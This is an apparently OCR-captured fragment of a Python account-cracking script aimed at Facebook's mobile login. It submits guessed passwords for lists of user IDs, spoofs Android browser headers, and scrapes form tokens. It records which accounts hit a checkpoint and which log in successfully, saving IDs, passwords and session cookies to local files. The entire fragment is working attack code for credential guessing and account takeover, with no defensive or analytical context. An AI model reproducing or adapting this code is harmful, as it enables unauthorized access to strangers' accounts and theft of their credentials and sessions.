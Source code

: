 			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r└── {kun}{idf}|{pw}\n{xxx}└── {mer}{ua}{xxx}')
				os.popen('play-audio c.mp3')
				open('/sdcard/AKUN-CP/'+cph,'a').write(idf+'|'+pw+'\n')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r└── {hijo}{idf}|{pw}|{kuki}\n{xxx}└── {hijo}{ua}{xxx}')
				os.popen('play-audio o.mp3')
				open('/sdcard/AKUN-OK/'+okh,'a').write(idf+'|'+pw+'|'+kuki+'\n')
				break
				